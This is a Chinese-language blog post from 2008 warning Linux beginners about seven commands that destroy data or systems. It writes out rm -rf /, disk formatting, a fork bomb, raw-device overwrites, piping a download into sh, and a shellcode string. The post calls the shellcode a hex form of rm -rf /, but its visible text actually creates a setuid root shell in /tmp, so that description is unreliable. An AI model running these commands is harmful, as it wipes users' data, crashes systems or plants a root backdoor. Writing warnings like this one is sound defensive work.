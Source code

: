 http://linuxtoy.org/archives/the-7-deadly-linux-commands.html


7 个致命的 Linux 命令

2008-11-21 Toy Posted in Cli, FeaturedRSS

如果你是一个 Linux 新手，在好奇心的驱使下，可能会去尝试从各个渠道获得的命令。以下是 7 个致命的 Linux 命令，轻则使你的数据造成丢失，重则使你的系统造成瘫痪，所以，你应当竭力避免在系统中运行它们。

   1. rm -rf /

      此命令将递归并强制删除 / 目录下的所有文件。
   2. char esp[] __attribute__ ((section(”.text”))) /* e.s.p
      release */
      = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
      “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
      “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
      “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
      “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
      “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
      “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
      “cp -p /bin/sh /tmp/.beyond; chmod 4755
      /tmp/.beyond;”;

      这是 rm -rf / 的 hex（十六进制）版本，很能迷惑 Linux 用户。
   3. mkfs.ext3 /dev/sda

      这将对硬盘进行重新格式化，自然，硬盘上的所有数据将灰飞烟灭。
   4. :(){ :|:& };:

      著名的 fork 炸弹，此命令将告诉你的系统执行海量的进程，直到你的系统僵死。
   5. any_command > /dev/sda

      使用该命令，原始数据将被写到块设备，其结果是造成数据丢失。
   6. wget http://some_untrusted_source -O- | sh

      不要从不信任的地方下载东西，这可能会获取恶意代码。
   7. mv /home/yourhomedirectory/* /dev/null

      此命令将移动主目录中的所有文件到一个不存在的地方，你将再也看不到那些文件